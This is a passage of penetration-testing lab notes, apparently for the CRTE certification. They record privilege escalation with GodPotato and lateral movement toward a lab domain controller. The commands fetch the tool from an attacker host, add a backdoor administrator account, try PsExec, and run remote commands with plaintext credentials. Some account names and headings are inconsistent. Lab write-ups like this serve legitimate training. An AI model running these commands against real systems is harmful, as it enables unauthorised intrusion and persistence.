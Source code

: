 # 1. Elevating privileges on `DB-SQLPROD`
- Since we have service account privileges, we can use **GodPotato** to escalate our privileges on the target server.
```powershell
PS C:\Windows\Tasks> wget http://192.168.100.57/GodPotato-NET4.exe -O GodPotato.exe
PS C:\Windows\Tasks> .\GodPotato.exe -cmd "cmd /c net user dbbackup Password123 /add && net localgroup Administrator dbbackup /add"
[*] CombaseModule: 0x140709910937600
[*] DispatchTable: 0x140709913243760
[*] UseProtseqFunction: 0x140709912619984
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\4a965ad5-68c2-4383-8d31-ec1cc6ad812d\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000b402-15d0-ffff-153c-ebca4be68432
[*] DCOM obj OXID: 0xddb852f08f10e6b8
[*] DCOM obj OID: 0x87066850491b6bc3
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 952 Token:0x828  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 5436
The command completed successfully.
```
- We can now try to access the target server via **winrs** using the created account.
```powershell
PS C:\Auditor> .\PsExec64.exe \\192.168.23.25 -u db-sqlprod\dbbackup -p Password123 powershell

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.23.25:
Access is denied.
```
- We can not access `DB-SQLPROD` via **PsExec**.
- We can leverage our reverse shell at `DB-SQLSRV` as described in [[3. CRTE/2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/2. Kill Chain|2. Kill Chain]].
# 2. Rights, Privileges and Permissions of `dbvendor\db57srv` at `db.local`
## 2.1 Access Rights
- `dbvendor\db57srv` has access rights on `DB-DC` as a member of the builtin Administrators group.
- We can abuse those permissions to gain access to `DB-DC`.
```powershell
PS C:\Windows\system32> $target_pass = ConvertTo-SecureString -AsPlainText -Force -String 'Password123!'
PS C:\Windows\system32> $cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "dbvendor\db57svc",$target_pass
PS C:\Windows\system32> Invoke-Command -ComputerName db-dc.db.local -ScriptBlock {whoami;hostname} -Credential $cred

dbvendor\db57svc
DB-DC
```
## 2.2 Account Privileges
- `dbvendor\db57srv` has administrative privileges on `DB-DC` as a member of the builtin Administrators group.
## 3.3 Account Permissions
- `dbvendor\db57srv` has administrative privileges on `DB-DC` as a member of the builtin Administrators group which essentially grants this account permissions of a domain administrator.